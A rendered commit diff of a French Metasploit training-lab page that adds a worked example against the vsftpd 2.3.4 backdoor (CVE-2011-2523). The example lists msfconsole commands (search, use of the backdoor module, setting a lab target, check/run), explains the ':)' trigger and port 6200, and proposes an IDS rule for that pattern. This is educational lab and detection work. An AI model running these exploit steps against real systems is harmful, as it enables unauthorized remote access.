

Before and after one commit to Joha12A/metasploit-training-lab-esgis, a Markdown page: docs/05-metasploit.md, 2 parts joined by grey strips. Shown at 93% size. GitHub-like rendering; pictures changed too: screenshots/04-vulnerabilites/vuln-01-exec.png (added); blank space fills up the shorter version.

````diff
--- a/docs/05-metasploit.md
+++ b/docs/05-metasploit.md
@@ -19,4 +16,4 @@ Pour chaque vulnérabilité étudiée :
    search cve:<ANNEE>-<NUMERO>
    ```
-3. Sélection et inspection du module :
+2. **Sélection et inspection** :
    ```text
@@ -25,26 +22,38 @@ Pour chaque vulnérabilité étudiée :
    show options
    ```
-4. Configuration des paramètres du module (`RHOSTS`, `RPORT`, `LHOST`, `LPORT`) :
+3. **Paramétrage de la cible autorisée** :
    ```text
    set RHOSTS 10.1.0.1
    ```
-5. Test de vérification d'éligibilité (si disponible) :
+4. **Validation et exécution contrôlée** :
    ```text
-   check
+   check # si le module supporte le contrôle passif
+   run   # ou exploit
    ```
-6. Exécution contrôlée de l'action autorisée.
 
-## 4. Captures d'écran
-*Emplacement réservé aux captures d'écran :*
-- Démarrage de msfconsole et vérification de la base : `screenshots/04-vulnerabilites/msf-init.png` *(En attente)*
-- Configuration et exécution des modules : `screenshots/04-vulnerabilites/msf-module-exec.png` *(En attente)*
+---
+
+## 4. Cas Pratique N°01 — VSFTPD v2.3.4 Backdoor (CVE-2011-2523)
+
+### Démarche exécutée :
+1. **Recherche** : `search vsftpd 2.3.4`
+2. **Chargement** : `use exploit/unix/ftp/vsftpd_234_backdoor`
+3. **Examen** : `info` (vérification de l'historique de la porte dérobée sur le port 6200)
+4. **Paramétrage** : `set RHOSTS 10.1.0.1`
+
+### Capture d'écran associée :
+![Configuration du module vsftpd 2.3.4](../screenshots/04-vulnerabilites/vuln-01-exec.png)
+
+---
 
 ## 5. Résultat observé
-*(Section en attente : aucune exploitation n'a encore été réalisée)*
+- Module configuré avec succès : `RHOSTS = 10.1.0.1`, `RPORT = 21`.
+- Référence de la fiche unitaire détaillée : [vuln-01.md](vulnerabilites/vuln-01.md).
 
 ## 6. Analyse technique
-*(Section en attente : analyse du vecteur de transmission du payload et de la réponse applicative)*
+- Le module s'appuie sur la présence du code malveillant intégré dans l'archive originale de 2011.
+- Contrairement aux exploits basés sur un débordement de mémoire (Buffer Overflow), il s'agit d'une porte dérobée purement applicative déclenchée par un déclencheur textuel (`:)`).
 
 ## 7. Recommandations éventuelles
-- Appliquer le principe de moindre privilège aux services applicatifs pour limiter l'impact d'une exploitation réussie.
-- Mettre en œuvre une surveillance comportementale et une détection d'intrusion (IDS/IPS).
+- Restreindre l'accès au service FTP.
+- Mettre en place une règle de détection IDS/Snort ou Suricata pour bloquer tout paquet contenant le motif `:)` transmis à destination du port 21.
````
Also changed, not shown: other parts of docs/05-metasploit.md (+10 -13 lines), docs/vulnerabilites/vuln-01.md (+55 -18 lines).
